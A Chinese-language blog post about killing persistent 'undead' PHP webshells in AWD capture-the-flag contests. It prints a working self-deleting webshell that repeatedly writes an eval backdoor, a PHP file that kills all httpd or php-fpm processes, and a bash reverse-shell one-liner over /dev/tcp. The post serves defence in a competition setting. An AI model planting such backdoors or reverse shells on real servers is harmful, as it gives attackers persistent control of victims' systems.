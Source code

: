 ```yaml
---
title: 干掉 PHP 不死马
date: 2019-04-04 23:20:56
tags: [awd, web]
---
```


在 AWD 模式下经常碰到不死马, 不干掉的话就会一直被偷 flag, 很难受. 所以研究一下怎么干掉.  

<!--more-->

## 什么是不死马

先说一下什么是不死马, 比如这种  

```php
<?php
set_time_limit(0);
ignore_user_abort(1);
unlink(__FILE__);
while (1) {
    $content = "<?php error_reporting(0);if(sha1(\$_POST['pwd'])==='%pwd%'){eval(\$_POST['cmd']);}?>";
    file_put_contents(".shell.php", $content);
    usleep(10000);
}
?>
```

简单来说有以下特性:  
* 访问后删除自己
* 即使断开连接也不会停止
* 驻留在内存中定时做某些事情, 比如上面这种就是不停的写 webshell

根据行为也可以将不死马分为两种, 一种是 while(1) 不 sleep, 占用服务器资源, 卡机子,  还有一种是 sleep, 悄悄的留后门  
如果不懂怎么干掉的话, 唯一的办法就是重启环境了, 而这在 AWD 中一般都是会倒扣不少分的...  

接下来了解一下 php 主流的两种运行模式 `php-fpm` 与 `php-apache` 这两种,  
`php-fpm` 适用于 `nginx` 和 `apache` 而 `php-apache` 自然是只能 `apache` 使用,  
其中 fpm 的性能更好, 但是配置较为复杂(其实也不是很复杂 233),  在 AWD 我只遇见过 `php-apache` 这种 0.0  
但是其实要干掉不死马, 步骤都差不多  

## 干掉不死马
### php-apache
在这种模式下, 会在 fork 的一个 apache 进程里面以低权限用户来处理 php, 如下图  
![](https://i.loli.net/2019/04/04/5ca626d682f9d.png#center)  
我们只要杀掉所以这些进程就行, 但在 AWD 中一般是没 root 权限的, 我们要干掉这些只能以低权限的身份来. 这里有两种办法  
1. 给自己在 web 目录下写一个 php, 里面是 
```php
<?php
system("kill `ps -ef | grep httpd | grep -v grep | awk '{print $2}'`");
```
如果觉得碰到不死马了就直接访问, 杀掉所有 httpd 进程, 因为权限不够, root 的不会被杀掉, 这个守护进程会自动再 fork 进程, 不用担心服务挂  

2. 写个 php 给自己弹个 shell, 在 shell 里面 killall, 这个更方便一点, 也更灵活
```php
<?php
system("bash -i >& /dev/tcp/127.0.0.1/23333 0>&1");
```

### php-fpm
其实跟上面差不多, 只是进程名不同, 因为 fpm 是独立的服务, 不同于上面 apache 里面直接调用 php 的 api  
![](https://i.loli.net/2019/04/05/5ca62d252ca42.png#center)  
```php
<?php
system("kill `ps -ef | grep php-fpm | grep -v grep | awk '{print $2}'`");
```